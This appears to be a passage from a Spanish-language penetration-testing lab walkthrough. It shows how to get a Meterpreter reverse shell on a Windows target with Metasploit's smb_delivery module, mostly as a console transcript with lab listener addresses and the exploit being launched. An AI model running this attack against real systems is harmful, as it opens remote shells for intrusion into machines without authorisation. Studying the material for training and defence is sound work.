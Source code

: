 ### Obtaining a Meterpreter Shell

Desde la salida, podemos ver varios parches faltantes. Desde aquí, obtengamos una shell de Metasploit en el sistema e intentemos escalar privilegios utilizando uno de los CVEs identificados. Primero, necesitamos obtener una shell inversa de `Meterpreter`. Podemos hacer esto de varias maneras, pero una forma fácil es utilizando el módulo `smb_delivery`.

```r
msf6 exploit(windows/smb/smb_delivery) > search smb_delivery

Matching Modules
================
   #  Name                              Disclosure Date  Rank       Check  Description
   -  ----                              ---------------  ----       -----  -----------
   0  exploit/windows/smb/smb_delivery  2016-07-26       excellent  No     SMB Delivery
Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/smb_delivery


msf6 exploit(windows/smb/smb_delivery) > use 0

[*] Using configured payload windows/meterpreter/reverse_tcp


msf6 exploit(windows/smb/smb_delivery) > show options 

Module options (exploit/windows/smb/smb_delivery):
   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILE_NAME    test.dll         no        DLL file name
   FOLDER_NAME                   no        Folder name to share (Default none)
   SHARE                         no        Share (Default Random)
   SRVHOST      10.10.14.3       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      445              yes       The local port to listen on.
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   1   PSH


msf6 exploit(windows/smb/smb_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   DLL
   1   PSH


msf6 exploit(windows/smb/smb_delivery) > set target 0

target => 0


msf6 exploit(windows/smb/smb_delivery) > exploit 
[*] Exploit running as background job 1.
```
